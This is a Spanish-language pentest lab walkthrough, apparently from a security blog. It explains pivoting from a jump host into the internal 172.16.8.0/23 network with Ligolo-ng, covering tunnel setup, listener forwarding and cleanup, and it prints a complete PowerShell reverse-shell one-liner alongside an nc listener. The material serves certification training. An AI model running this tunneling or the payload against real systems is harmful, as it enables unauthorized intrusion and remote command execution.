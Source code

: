 ```yaml
---
layout: single
title: PIVOTING CON LIGOLO
excerpt: "En este laboratorio, solo tenemos conexión con un host intermedio (10.129.229.147), el cual a su vez tiene acceso a una red interna (172.16.8.0/23). Con Ligolo-ng, podemos crear un túnel desde nuestra máquina hasta ese host para enrutar tráfico y acceder directamente a la red interna no visible, facilitando el pivoting de forma rápida y estable."
date: 2025-06-26
classes: wide
header:
  teaser: /assets/images/Ligolo_Images/Ligolo.png
  teaser_home_page: true
categories:
  - infosec
tags:  
  - pivoting
  - oscp
  - cpts
  - ligolo-ng
---
```


![Ligolo.png](/assets/images/Ligolo_Images/Ligolo.png)

## Representación del Escenario

 
![Lab.png](/assets/images/Ligolo_Images/Lab.png)

> Nos encontramos en un laboratorio en el que nuestra maquina de ataque solo tiene conexión al host intermediario con dirección ip `10.129.229.147`, cuando entramos dentro de el vemos que tiene otra interfaz de red que nos brinda conexión a otra red distinta que es la `172.16.8.0/23`, el objetivo de esta explicación es que desde nuestra maquina de ataque tengamos acceso completo a la red no visible.

## Explicación

> Empezamos conectándonos al host intermediario con dirección ip `10.129.229.147`, a través de `ssh` y hacemos un barrido `ping` en la red nueva para el descubrimiento de hosts:

```bash
root@dmz01:~# for i in $(seq 254); do ping 172.16.8.$i -c1 -W1 & done | grep from

64 bytes from 172.16.8.3: icmp_seq=1 ttl=128 time=0.472 ms
64 bytes from 172.16.8.20: icmp_seq=1 ttl=128 time=0.433 ms
64 bytes from 172.16.8.120: icmp_seq=1 ttl=64 time=0.031 ms
64 bytes from 172.16.8.50: icmp_seq=1 ttl=128 time=0.642 ms
```

Como podemos observar descubrimos 4 hosts pero uno de ellos es nuestra interfaz de red(`172.16.8.120`).

> Una vez que sabemos que queremos `pivotar` a otra red de destino lo que tenemos que hacer es proceder con la descarga de `Ligolo-ng` de la siguiente forma:

[REPOSITORIO OFICIAL DE GITHUB](https://github.com/nicocha30/ligolo-ng)

- Nos descargamos el proxy:

```bash
wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.8.2/ligolo-ng_proxy_0.8.2_linux_amd64.tar.gz
```

- Nos descargamos el agente:

```bash
wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.8.2/ligolo-ng_agent_0.8.2_linux_amd64.tar.gz
```

- Descomprimimos dos veces el proxy:

```bash
7z x ligolo-ng_proxy_0.8.2_linux_amd64.tar.gz
7z x ligolo-ng_proxy_0.8.2_linux_amd64.tar
```

- Descomprimimos dos veces el agente:

```bash
7z x ligolo-ng_agent_0.8.2_linux_amd64.tar.gz
7z x ligolo-ng_agent_0.8.2_linux_amd64.tar
```

> Una vez todo descargado y descomprimido no tenemos que hacer nada mas, tendríamos los dos binarios que necesitamos para hacer todo, `agent` & `proxy`. Antes de ponerlos a funcionar habría que hacer unos preparativos previos en nuestra maquina atacante.

### Preparativos

> Crear una interfaz de red en modo túnel llamada `ligolo`:

```bash
sudo ip tuntap add user $USER mode tun ligolo
```

> Una vez creada la interfaz de red, hay que levantarla porque por defecto viene desactivada:

```bash
sudo ip link set ligolo up
```

> Añadir el segmento de red al que queremos llegar a ver(`172.16.8.0/23`), en nuestra tabla de enrutamiento de nuestra maquina atacante, y le vamos a decir que todo el flujo de ese segmento de red vaya a través de la nueva interfaz de red `ligolo`:

```bash
sudo ip route add 172.16.8.0/23 dev ligolo
```

### Puesta en marcha

> Arrancar el binario `proxy` en nuestra maquina atacante, que sirve de servidor:

```bash
chmod +x ./proxy
```

```bash
./proxy -selfcert

INFO[0000] Loading configuration file ligolo-ng.yaml    
WARN[0000] Using default selfcert domain 'ligolo', beware of CTI, SOC and IoC! 
INFO[0000] Listening on 0.0.0.0:11601
```

La `flag` `-selfcert` se la indicamos para evitar problemas con certificados.

> Ejecutar el `Agente` desde la maquina de salto de la siguiente forma:

- Transferimos el archivo:

```bash
scp -i dmz01_key agent root@10.129.229.147:/tmp
```

- Otorgamos permisos de ejecución al binario:

```bash
chmod +x ./agent
```

> Lo que queremos hacer ahora es conectarnos al servidor que hemos habilitado en nuestra maquina atacante que se a puesto en escucha por el puerto `11601` de la siguiente forma:

```bash
./agent -connect 10.10.14.237:11601 -ignore-cert
```

Indicamos de nuevo la `flag` `-ignore-cert` para evitar problemas con certificados...

> Nos vamos a la maquina atacante y nos llegara una notificación de que un agente se ha unido, lo único que tenemos que hacer es dar `Intro`, escribir dentro de la consola de `Ligolo` el comando `session` para elegir una sesión, solo nos aparecerá una por lo que hacemos `Intro` para seleccionar la numero 1. Escribimos el comando `start` y hacemos `Intro` y ya con esto tendríamos acceso al segmento de red que no teníamos acceso.

### Comprobación de acceso al nuevo segmento de red

> Tan simple como probar a hacer un `ping` de la siguiente forma:

```bash
ping -c 4 172.16.8.3
```

### Configuraciones varias para poder recibir Rev Shells

> Con la configuración que tenemos actualmente desde el punto de vista de nuestra maquina atacante tenemos acceso a la red interna `172.16.8.0/23` para enviar datos , pero en el punto de recibir, la red no sabe que ruta tiene que hacer para poder enviar datos a nuestra maquina atacante. En el caso de que obtengamos ejecución remota de comandos en la maquina `172.16.8.3`, vamos a querer entablarnos una `reverse shell` para poder operar de una forma mas cómoda y estable, por lo que vamos a tener que hacer un redireccionamiento de puertos para que la maquina en la que hemos obtenido el `RCE`, sepa que ruta tenga que hacer para poder llegar a tener conectividad con nuestra maquina atacante:

- Nos ponemos en escucha en nuestra maquina de ataque por el puerto que queramos recibir nuestra `rev shell`:

```bash
rlwrap nc -nlvp 443
```

- Agregamos un `listener` dentro de `Ligolo` en nuestra maquina de ataque de la siguiente forma:

```bash
listener_add --addr 0.0.0.0:8181 --to 127.0.0.1:443
```

Lo que le estamos diciendo aquí es que todo el trafico entrante por el puerto `8181` lo redirija a nuestro `localhost` por el puerto `443` que lo tenemos en escucha.

- Ver los `listeners` que tenemos activos:

```bash
listener_list
```

> Ejecutamos la carga útil para recibir la `rev shell` en nuestra maquina atacante de la siguiente forma:

```powershell
$LHOST = "172.16.8.120"; $LPORT = 8181; $TCPClient = New-Object Net.Sockets.TCPClient($LHOST, $LPORT); $NetworkStream = $TCPClient.GetStream(); $StreamReader = New-Object IO.StreamReader($NetworkStream); $StreamWriter = New-Object IO.StreamWriter($NetworkStream); $StreamWriter.AutoFlush = $true; $Buffer = New-Object System.Byte[] 1024; while ($TCPClient.Connected) { while ($NetworkStream.DataAvailable) { $RawData = $NetworkStream.Read($Buffer, 0, $Buffer.Length); $Code = ([text.encoding]::UTF8).GetString($Buffer, 0, $RawData -1) }; if ($TCPClient.Connected -and $Code.Length -gt 1) { $Output = try { Invoke-Expression ($Code) 2>&1 } catch { $_ }; $StreamWriter.Write("$Output`n"); $Code = $null } }; $TCPClient.Close(); $NetworkStream.Close(); $StreamReader.Close(); $StreamWriter.Close()
```

**Aspecto importante a tener en cuenta:** Aquí estamos especificando la `dirección ip` de la otra interfaz de red de la maquina de salto, que tiene conectividad con el segmento de red al que estamos pivotando que no vemos desde nuestra maquina de ataque, y el segmento de código que estamos ejecutando lo estamos haciendo en la maquina `172.16.8.3` que hemos obtenido `RCE`.

> Con esto ya recibiríamos nuestro `rev shell` en nuestra maquina atacante y podríamos operar de una forma mas cómoda.

## Limpieza de la configuración una vez finalizada la auditoria

> Por una parte limpiamos la tabla de enrutamiento en nuestra maquina atacante de la siguiente forma:

```bash
sudo ip route del 172.16.8.0/23 dev ligolo
```

```bash
ip route list
```

> Eliminación de la interfaz de red `Ligolo`:

```bash
sudo ip link del ligolo
```
